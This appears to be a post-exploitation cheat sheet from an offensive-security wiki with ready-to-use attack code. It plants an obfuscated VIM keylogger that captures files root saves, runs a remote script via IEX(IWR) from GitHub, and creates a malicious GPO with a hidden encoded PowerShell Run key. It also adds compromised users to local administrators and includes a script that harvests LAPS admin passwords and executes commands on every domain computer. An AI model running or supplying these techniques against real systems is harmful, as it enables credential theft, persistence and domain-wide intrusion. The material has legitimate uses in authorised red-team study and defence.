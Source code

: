 # Post Exploitation




## VIM Keylogger

Create a malicious VIM config that will save contents of a modified file when ran with sudo:

{% code title="settings.vim" %}
```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/tmp0x031337
:endif
```
{% endcode %}

```
$ sudo -u victim mkdir -p /home/victim/.vim/plugin
$ sudo -u victim bash -c 'echo -n OmlmICRVU0VSID09ICJyb290Igo6YXV0b2NtZCBCdWZXcml0ZVBvc3QgKiA6c2lsZW50IDp3ISA+PiAvdG1wL3RtcDB4MDMxMzM3CjplbmRpZgo=|base64 -d > /home/victim/.vim/plugin/settings.vim'
```




## Reach a Locked Down Domain Computer

If you find yourself in a situation when you're already a domain admin and you need to access a "locked down" domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Identify the OU containing the VICTIM-PC object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
Or
PS > IEX(IWR "https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/ADModuleImport.ps1" -UseBasicParsing)

PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create the GPO using PowerShell (will trigger your command when the victim user logs in):

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Create the GPO using GPMC (will enable RDP and add owned user/group to local administartors group on VICTIM-PC):

1. Run > `gpmc.msc`.
2. Create new GPO, link it to the OU and edit.
3. `<POLICY_NAME>` > Computer Configuration > Policies > Windows Settings > Security Settings > Windows Firewall with Advanced Security > Windows Firewall with Advanced Security > Inbound Rules > New Rule (right-click) > Predefined > Remote Desktop > Allow.
4. `<POLICY_NAME>` > Computer Configuration > Preferences > Control Panel Settings > New Local Group (right-click) > Group name (`...`) > Members (Add) > Apply > OK.

Usually, it takes between 90 and 120 minutes for a new GPO to be applied.




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
	}
}
```
{% endcode %}
